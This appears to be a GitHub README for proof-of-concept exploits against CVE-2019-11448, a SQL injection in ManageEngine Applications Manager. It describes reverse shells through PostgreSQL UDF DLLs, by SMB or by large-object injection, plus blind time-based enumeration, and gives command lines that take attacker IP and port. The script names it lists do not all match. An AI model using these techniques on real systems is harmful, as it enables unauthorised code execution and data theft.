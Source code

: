 
This repository contains multiple **proof-of-concept (PoC) exploits** for **CVE-2019-11448**, a critical **unauthenticated SQL Injection vulnerability** in the `AMUserResourcesSyncServlet` endpoint of **ManageEngine Applications Manager** (versions 11.0 to <14.0). The application's **PostgreSQL backend** allows arbitrary SQL execution and even remote code execution (RCE) via **User-Defined Functions (UDFs)**.



### Included PoCs

#### `POC_ManageEngine.py` – Reverse Shell via SMB-hosted DLL

* Creates a PostgreSQL UDF using a malicious DLL hosted on an SMB share
* Calls the UDF to execute a reverse shell
* Easiest and fastest method (requires SMB egress)

#### `LargeObjectAPI.py` – Reverse Shell via Large Object Injection

* Injects a hex-encoded DLL payload into PostgreSQL's `pg_largeobject`
* Uses `lo_export()` to write the DLL to disk
* Defines and executes the UDF for RCE
* Suitable for **egress-restricted environments** (no SMB required)

#### `BlindSQLI.py` – Blind Time-Based SQL Injection Enumerator

* Performs **blind SQLi** against the vulnerable endpoint
* Extracts string data (e.g., usernames, table names) using `pg_sleep()` delay-based logic
* Demonstrates enumeration techniques under restricted output scenarios



### Usage

```bash
# PoC 1 – Reverse Shell via SMB DLL
python3 POC_ManageEngine.py <targetIP:port> <attackerIP> <attackerPort>

# PoC 2 – Large Object Injection Method
python3 POC_ManageEngine_LO.py <targetIP:port> <attackerIP> <attackerPort>

# PoC 3 – Blind SQLi Enumeration
python3 Blind-SQLI-Time.py "<base_url_to_servlet>"
```

Example:

```bash
python3 Blind-SQLI-Time.py "https://192.168.106.113:8443/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1"
```

